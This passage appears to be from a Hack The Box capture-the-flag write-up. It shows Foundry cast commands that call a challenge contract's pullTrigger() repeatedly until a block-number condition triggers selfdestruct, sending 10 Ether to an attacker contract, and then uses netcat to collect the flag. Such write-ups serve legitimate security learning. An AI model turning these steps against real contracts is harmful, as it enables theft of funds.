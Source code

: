 To get the right block number, I called `pullTrigger()` multiple times (15) using Foundry's `cast` tool to meet the `if` statement condition and trigger the `selfdestruct()` method to send the 10 Ether to my attacker contract.

```bash
$ cast send --private-key $PK -f $ATTACKER --rpc-url $RPC $TARGET "pullTrigger()"

    blockHash               0x0d7f6e70b44066fc8334a5e01e85b3db072fe849c1b450b4b7e9c2acd6dd6fe0
    blockNumber             2
    contractAddress
    cumulativeGasUsed       21720
    effectiveGasPrice       3000000000
    from                    0x19Bd76639019aadBeeA69F5399C49e1672f5e25d
    gasUsed                 21720
    logs                    []
    logsBloom               0x000000000000000000000000...
    root
    status                  1
    transactionHash         0xae0003c575c9e12b54d1e52bae664897021d73cc75e5f0acb0417ca812d6ab5e
    transactionIndex        0
    type                    2
    to                      0x28874aF3728F75792df75680b5c3a9ff1a8C4100
    depositNonce             null

    Repeat...

$ cast send --private-key $PK -f $ATTACKER --rpc-url $RPC $TARGET "pullTrigger()"

    blockHash               0x6ae30317307bf064493418d851a4f8350ec86003067780a035c2260233812ce4
    blockNumber             16
    contractAddress
    cumulativeGasUsed       26358
    effectiveGasPrice       3000000000
    from                    0x19Bd76639019aadBeeA69F5399C49e1672f5e25d
    gasUsed                 26358
    logs                    []
    logsBloom               0x000000000000000000000000...
    root
    status                  1
    transactionHash         0x114d561b016940ac946d493ee46d85e91ee76fea51c062b39857aaa4680920d5
    transactionIndex        0
    type                    2
    to                      0x28874aF3728F75792df75680b5c3a9ff1a8C4100
    depositNonce             null
```

With the `pullTrigger()` condition met, I was able to get the flag.

```bash
$ nc 83.136.252.250 40761
    1 - Connection information
    2 - Restart Instance
    3 - Get flag
    action? 3
    HTB{99%_0f_g4mbl3rs_quit_b4_bigwin}
```
